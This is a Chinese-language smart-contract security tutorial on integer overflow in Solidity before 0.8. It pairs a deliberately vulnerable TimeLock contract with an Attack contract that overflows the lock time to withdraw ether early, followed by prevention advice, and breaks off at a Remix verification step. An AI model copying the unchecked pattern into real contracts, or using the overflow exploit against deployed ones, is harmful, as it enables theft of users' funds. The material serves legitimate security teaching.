

# 67.Arithmetic Overflow and Underflow
##漏洞
### Solidity < 0.8
Solidity中的整数会发生溢出/下溢，但没有任何错误提示。
### Solidity >= 0.8
Solidity 0.8的默认行为是在发生溢出/下溢时抛出错误。


这个合约被设计成一个时间保险箱。
用户可以向此合约存款，但至少需要等待一周后才能取款。
用户也可以延长等待时间超过一周。

1. 部署TimeLock
2. 部署Attack，将TimeLock的地址传递给Attack
3. 调用Attack.attack发送1个以太。您将立即能够取回您的以太。

发生了什么？
攻击导致TimeLock.lockTime溢出，并在一周等待期结束之前取款。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        如果t是当前锁定时间，则我们需要找到x，使得
        x + t = 2**256 = 0
        所以x = -t
        2**256 = type(uint).max + 1
        所以 x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```
##预防技术
使用SafeMath可以防止算术溢出和下溢。

Solidity 0.8版本中算术操作在下溢和溢出时都会恢复。你可以使用 unchecked { ... } 来使用以前的包装行为。

溢出的检查是非常普遍的，所以我们把它作为默认的检查， 以增加代码的可读性，即使它是以略微增加gas成本为代价的。

## remix验证
1. 部署TimeLock合约。部署Attack合约，并传递TimeLock合约的地址给它。
